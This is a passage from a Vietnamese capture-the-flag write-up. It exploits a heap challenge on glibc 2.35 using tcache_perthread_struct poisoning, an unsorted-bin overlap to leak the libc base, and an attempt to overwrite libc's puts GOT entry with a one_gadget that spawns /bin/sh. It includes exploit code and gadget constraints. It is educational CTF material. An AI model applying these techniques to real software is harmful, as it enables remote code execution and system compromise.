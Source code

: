 Giờ mình gọi `realloc(mlist[4],0x68)` để control entries bằng `mlist[4]`  -> ghi đè `tcachesbin[0x78] entry` thành `tcache+0x160` -> gọi `realloc(mlist[5],0x78)`
từ đó `mlist[5]` trỏ vào `tcache+0x160`.

```python
Edit(4,0x68,p64(0)*6+p64(tcache_perthread_struct+0x160))
Edit(5,0x78,b"X")
```
![](https://i.imgur.com/wlm1UUM.png)

Ta thấy giờ `mlist[5]` cách `unsortedbin` 0x60, nếu ta gọi `malloc(0x58)` ra thì khi đó `unsortedbin` và `mlist[5]` overlap -> in `mlist[5]` ra ta leak được libc.

```python 
Edit(6,0x58,b"Khongduocthicut")
List()
p.recvuntil(b"[5] ")
libc.address=int(p.recv(6)[::-1].hex(),16)-0x219ce0
```

Đề bài cho libc 2.35, ta không thể ghi đè one-gadget vào `__malloc_hook`,`__calloc_hook`,`__realloc_hook` hay `__free_hook` để chiếm shell.

Đầu tiên mình nghĩ đến việc ghi đè one_gadget vào got của libc. Dễ thấy nhất là hàm puts.
![](https://i.imgur.com/yu3Ntne.png)

```python 
puts_abs_got=libc.address+0x219098
Edit(3,0x78,p16(0)*6+p16(7))
Edit(4,0x68,p64(0)*6+p64(puts_abs_got-8))
Edit(7,0x78,p64(8)+p64(libc.address+0xebcf8))
```
[Note: halfbyte đầu của một địa chỉ tcachebin phải là 0](https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L1322)
![](https://i.imgur.com/nh7LiPz.png)
Vấn đề là lúc này khi mình check thực sự các thanh ghi không thảo mãn one_gadget nào.
```c
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL

0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xebcf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
Tuy nhiên mình thấy có quy luật là $rax là địa chỉ trỏ vào heap, $rdx là số byte vừa ghi đè được lên heap chunk.
